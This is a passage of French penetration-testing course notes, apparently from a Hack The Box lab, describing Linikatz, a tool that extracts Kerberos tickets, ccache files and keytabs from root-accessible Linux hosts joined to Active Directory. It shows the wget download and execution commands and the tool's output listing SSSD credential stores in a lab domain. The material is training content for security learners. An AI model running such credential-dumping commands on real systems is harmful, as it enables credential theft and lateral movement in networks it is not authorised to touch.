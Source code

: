 ```

 Directory of \\dc01\julio

07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  04:18 PM                17 julio.txt
               1 File(s)             17 bytes
               2 Dir(s)  18,161,782,784 bytes free
```

## Linikatz
Linikatz est un outil créé par l'équipe de sécurité de Cisco pour exploiter les informations d'identification sur les machines Linux lorsqu'il y a une intégration avec Active Directory. En d'autres termes, Linikatz apporte un principe similaire à Mimikatz aux environnements UNIX.

Tout comme Mimikatz, pour profiter de Linikatz, nous devons être root sur la machine. Cet outil extraira toutes les informations d'identification, y compris les tickets Kerberos, de différentes implémentations Kerberos telles que FreeIPA, SSSD, Samba, Vintella, etc. Une fois qu'il aura extrait les informations d'identification, il les placera dans un dossier dont le nom commence par linikatz.. Dans ce dossier, vous trouverez les informations d'identification dans les différents formats disponibles, y compris ccache et keytabs. Ceux-ci peuvent être utilisés, le cas échéant, comme expliqué ci-dessus.

### Téléchargement et exécution de Linikatz
```
dsgsec@htb[/htb]$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
dsgsec@htb[/htb]$ /opt/linikatz.sh
 _ _       _ _         _
| (_)_ __ (_) | ____ _| |_ ____
| | | '_ \| | |/ / _` | __|_  /
| | | | | | |   < (_| | |_ / /
|_|_|_| |_|_|_|\_\__,_|\__/___|

             =[ @timb_machine ]=

I: [freeipa-check] FreeIPA AD configuration
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Foundation-Firmware
-rw-r--r-- 1 root root 1702 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Hughski-Limited
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd/LVFS-CA.pem
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Foundation-Metadata
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd-metadata/LVFS-CA.pem
I: [sss-check] SSS AD configuration
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/timestamps_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  7 12:17 /var/lib/sss/db/config.ldb
-rw------- 1 root root 4154 Oct 10 19:48 /var/lib/sss/db/ccache_INLANEFREIGHT.HTB
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/cache_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  4 16:26 /var/lib/sss/db/sssd.ldb
-rw-rw-r-- 1 root root 10406312 Oct 10 19:54 /var/lib/sss/mc/initgroups
-rw-rw-r-- 1 root root 6406312 Oct 10 19:55 /var/lib/sss/mc/group
-rw-rw-r-- 1 root root 8406312 Oct 10 19:53 /var/lib/sss/mc/passwd
-rw-r--r-- 1 root root 113 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/localauth_plugin
-rw-r--r-- 1 root root 40 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/krb5_libdefaults
-rw-r--r-- 1 root root 15 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/domain_realm_inlanefreight_htb
-rw-r--r-- 1 root root 12 Oct 10 19:55 /var/lib/sss/pubconf/kdcinfo.INLANEFREIGHT.HTB
-rw------- 1 root root 504 Oct  6 11:16 /etc/sssd/sssd.conf
I: [vintella-check] VAS AD configuration
I: [pbis-check] PBIS AD configuration
I: [samba-check] Samba configuration
```